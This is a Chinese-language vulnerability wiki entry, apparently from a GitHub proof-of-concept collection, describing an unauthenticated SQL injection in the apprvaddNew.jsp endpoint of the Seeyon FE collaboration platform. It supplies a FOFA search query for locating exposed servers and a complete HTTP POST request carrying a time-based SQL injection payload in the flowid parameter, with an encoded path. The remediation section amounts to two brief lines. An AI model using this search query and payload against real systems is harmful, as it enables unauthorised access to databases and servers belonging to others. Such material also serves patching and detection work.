

# 致远互联FE协作办公平台 apprvaddNew.jsp SQL注入漏洞

# 漏洞描述

致远互联FE协作办公平台 apprvaddNew.jsp 接口处存在SQL注入漏洞,未经身份验证的攻击者可以通过此漏洞获取数据库敏感信息，深入利用可获取服务器权限。

影响版本

致远互联FE协作办公平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="li_plugins_download"

POC/EXP：

POST /witapprovemanage/apprvaddNew.j%73p HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Content-Length: 13

flowid=1';WAITFOR+DELAY+'0:0:5'--

# 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
